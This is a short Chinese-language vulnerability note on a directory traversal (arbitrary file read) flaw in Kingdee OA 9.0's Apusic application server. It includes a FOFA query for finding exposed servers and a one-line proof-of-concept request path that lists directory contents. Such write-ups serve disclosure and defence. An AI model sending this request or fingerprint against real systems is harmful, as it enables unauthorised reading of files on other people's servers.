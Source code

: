 # 金蝶OA Apusic应用服务器(中间件) server_file 目录遍历漏洞

## 漏洞描述

金蝶OA Apusic应用服务器(中间件) 存在任意文件读取漏洞，攻击者通过漏洞可以获取目录下的文件信息

## 漏洞影响

```
金蝶OA 9.0 Apusic应用服务器(中间件)
```

## FOFA

```
app="Apusic-公司产品" && title=="欢迎使用Apusic应用服务器"
```

## 漏洞复现

登录页面

![image-20220520142557418](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201425611.png)

验证POC

```
/admin/protected/selector/server_file/files?folder=/
```

![image-20220520142704544](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201427636.png)